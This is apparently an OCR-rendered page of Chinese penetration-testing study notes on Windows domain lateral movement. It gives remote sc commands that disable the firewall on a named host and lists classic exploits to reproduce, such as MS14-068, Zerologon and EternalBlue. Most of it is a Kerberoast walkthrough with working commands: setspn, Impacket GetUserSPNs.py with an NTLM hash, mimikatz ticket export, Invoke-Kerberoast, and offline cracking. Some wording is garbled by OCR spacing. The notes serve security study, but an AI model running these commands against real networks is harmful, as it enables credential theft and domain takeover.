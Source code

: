 `关闭防火墙命令`\-- 关闭防火墙

```plain
sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\WIN-ENS2VR5TR3N start unablefirewall
```

【横 向】：学习 MS14-068、zerolog on、永 恒之 蓝、printnig htmare 这⼏个 经典漏洞的 exp 使⽤，对应版 本，能 了解⼀ 波原理 更好。要求：复现，

【横 向】：学习 kerberoast、as\_reproast 这 俩攻击 ⽅式 要求：复现，总结⼀ 篇⽂章

## kerberoast 攻击

什么是 Kerberoast 攻击呢，在实战环境中，攻击者为获取目标服务器权限，`设法破解Kerberos服务票据并重写它们的过程，不需要与靶机服务进行任何交互。`可以通过合法的活动目录访问`请求和导出`来离线破解服务票据，从而获取最终的明文密码。  
攻击步骤如下：

1.  攻击者提供一个正常域用户密码进行认证获得`TGT`
2.  攻击者使用该 `TGT`针对指定 `SPN请求`
3.  `KDC验证TGT`之后服务 Hash 加密的 `ST`
4.  最终攻击者 离线爆破`ST`

执行命令如下

```plain
在域控下打开 powershell 执行一下命令：
setspn -S Hacker/test.com kerberoasting
命令解释：
Hacker 是服务名
test.com 是域名
kerberoasting 是域用户名

查询所有 SPN 命令看看是否配置成功
setspn -q */*
```

`Kerberoating请求伪造服务`

```plain
GetUserSPNs.py 工具请求服务票据：
    Impacket 中的 GetUserSPNs.py 脚本可以请求注册于用户下所有 SPN 的服务票据，
    也可以请求注册于指定用户下的 SPN 服务票据。
#请求注册于用户下所有 SPN 的服务票据，并以 hashcat 能够破解的格式保存为 spn.txt 文件：
GetUserSPNs.py -request -dc-ip 10.211.55.100 'test.com/ruyu' -hashes :4c25ed57e37131073192a98148fbc30f -outputfile spn.txt
```

mimikatz 导出票据

```plain
mimikatz.exe "kerberos::list /export"  "exit"

## 拓展 Empire 下的 Invoke-Kerberoast.ps1
Import-Module .\Invoke-Kerberoast.ps1;Invoke-Kerberoast -outputFormat Hashcat
```

下一步进行离线破解服务票据  
利用`kerberoast中的tgsrepcrack.py`
